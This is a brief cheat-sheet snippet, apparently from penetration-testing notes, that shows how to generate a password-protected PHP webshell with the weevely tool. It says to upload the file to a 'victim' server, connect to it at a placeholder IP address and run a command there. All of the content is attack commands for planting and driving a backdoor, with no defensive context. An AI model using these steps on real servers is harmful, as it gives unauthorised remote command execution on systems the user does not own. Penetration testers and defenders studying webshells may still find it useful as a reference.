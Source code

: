 Quick webshell creation and usage
----------------------------------
```bash
weevely generate 1234 ./weevley.php
# upload file to victim

# get webshell
weevely http://xxx.xxx.xxx.xxx/weevley.php 1234

# run single command
weevely http://xxx.xxx.xxx.xxx/weevley.php 1234 whoami
```
